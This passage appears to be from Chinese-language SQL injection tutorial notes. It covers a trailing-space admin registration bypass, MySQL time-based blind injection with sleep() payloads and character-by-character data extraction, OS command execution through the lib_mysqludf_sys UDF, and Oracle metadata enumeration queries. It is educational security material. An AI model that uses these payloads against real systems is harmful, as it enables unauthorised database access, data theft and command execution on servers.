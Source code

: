 ```sql
Query OK,1 row affected,1 warning (0.00 sec)
``` 
比如，有一处管理员登录是这样判断的，语句如下：
``` sql
$sql="select count(*) from users where username='admin' and password='*****'";
``` 
假设管理员登录的用户名为admin，那么攻击者仅需要注册一个“admin   ”用户即可轻易进入后台管理页面。

### 八、延时注入
当网页页面具有容错功能，就只能通过盲注判断，盲注的意思即页面无差异的注入。延时注入则属于盲注技术的一种，是一种基于时间差异的注入技术。
在MySQL中有一个函数：SLEEP(duration)，这个函数意思是在duration参数给定的秒数后运行语句。
```sql
select * from users where id=1 and sleep(3); 3秒后执行SQL语句
可以使用这个函数来判断URL是否存在SQL注入漏洞，步骤如下：
http://www.example.com/user.jsp?id=1 //页面返回正常，1秒左右可打开页面
http://www.example.com/user.jsp?id=1'//页面返回正常，1秒左右可打开页面
http://www.example.com/user.jsp?id=1' and 1=1 //页面返回正常，1秒左右可打开页面
http://www.example.com/user.jsp?id=1 and sleep(3) //页面返回正常，3秒左右可打开页面
``` 
DBMS执行了and sleep(3)语句，这样一来可判断出URL确实存在SQL注入漏洞。         
与其他函数配合可通过延时注入读取数据                
（1）and if(length(user())=0,sleep(3),1)          
循环0，如果出现3秒延时，就可以判断出user字符串长度        
（2）and if(hex(mid(user(),1,1))=1,sleep(3),1)       
取出user字符串的第一个字符，然后与ASCII码循环对比。         
（3）and if(hex(mid(user(),L,1))=N,sleep(3),1)       
递归破解第二个ACSII码、第三个ASCII码，直至字符串最后一个字符为止。L的位置代表字符串的第几个字符，N的位置代表ASCII码。        
SQL Server中的延时函数为waitfor delay、Oracle中的为DBMS_LOCK.SLEEP等函数        



### 九、MySQL中的命令执行
MySQL UDF允许用户以C/C++编码的方式扩展MySQL的功能，并且动态的加载到运行中的MySQL服务器中。其原理是通过dlopen、dlsym、dlclose等接口来实现动态的加载动态函数库的目的。           
在流行的数据库中，一般都支持从本地文件系统中导入一个共享库文件作为自定义函数。使用如下语法可以创建UDF：CREATE FUNCTION f_name RETURNS INTEGER SONAME shared_library                         
MySQL中没有执行外部命令的函数，要调用外部的命令，可以通过开发MySQL UDF来实现。lib_mysqludf_sys就是一个实现了此功能的UDF库。可以利lib_mysqludf_sys提供的几个函数执行系统命令，其中最主要的函数是sys_eval()和sys_exec()      

使用方法：  
（1）lib_mysqludf_sys.so复制到mysql/lib/plugin目录下。           
（2）在mysql中创建函数(根据需要选取)：Create FUNCTION sys_exec RETURNS int SONAME 'lib_mysqludf_sys.so';                  
（3）在select语句调用mkdir命令：Select sys_exec('mkdir -p /home/user1/aaa')            
在自动化注入工具SQLMAP中，已经集成了此功能，选项为--os-cmd                   

## Oracle
### 一、获取元数据
```sql
1.user_tablespaces试图，查看表空间
select tablespace_name from user_tablespaces
2.user_tables试图，查看当前用户的所有表
select table_name from user_tables where rownum = 1
3.user_tab_columns试图，查看当前用户的所有列，例如：查询users表的所有列
select column_name from user_tab_columns where table_name='users'
4.all_users视图，查看oracle数据库的所有用户
select username from all_users
5.user_objects试图，查看当前用户的所有对象（表名称，约束，索引）

select object_name from user_objects
```
